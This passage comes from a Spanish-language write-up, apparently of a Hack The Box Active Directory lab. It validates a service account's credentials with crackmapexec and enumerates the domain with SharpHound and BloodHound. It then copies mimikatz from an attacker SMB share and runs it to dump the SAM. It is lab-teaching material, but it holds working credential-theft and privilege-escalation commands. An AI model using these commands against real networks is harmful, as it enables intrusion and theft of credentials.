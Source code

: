 Dado que las credenciales también son válidas para LDAP, importamos el módulo SharpHound y lo invocamos, pasándole las credenciales de test-svc.

```bash
❯ crackmapexec ldap dc1.htb.local -u test-svc -p 'T3st-S3v!ce-F0r-Pr0d'
SMB         dc1.htb.local   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)  
LDAP        dc1.htb.local   389    DC1              [+] htb.local\test-svc:T3st-S3v!ce-F0r-Pr0d
```

```powershell
PS C:\Users\Administrator\Documents> Import-Module .\SharpHound.ps1
PS C:\Users\Administrator\Documents> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LdapUser 'test-svc' -LdapPassword 'T3st-S3v!ce-F0r-Pr0d'  
PS C:\Users\Administrator\Documents>
```

Al ejecutarlo, se creará un archivo ZIP con toda la información del dominio. Podemos simplemente descargarlo utilizando la función "download" de Evil-WinRM como BH.zip. Luego, lo subimos a BloodHound. Mirando los controles de objetos del usuario test-svc, encontramos que tiene el privilegio GenericAll sobre el equipo web.htb.local.

```powershell
PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/27/2023   9:06 PM          12157 20230427210646_BloodHound.zip
-a----        4/27/2023   8:46 PM        1250056 mimikatz.exe
-a----        4/27/2023   9:03 PM        1318097 SharpHound.ps1

PS C:\Users\Administrator\Documents> download .\20230427210646_BloodHound.zip BH.zip  

Info: Downloading .\20230427210646_BloodHound.zip to BH.zip

Info: Download successful!

PS C:\Users\Administrator\Documents>
```

![AD](/assets/images/AD2.png)


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>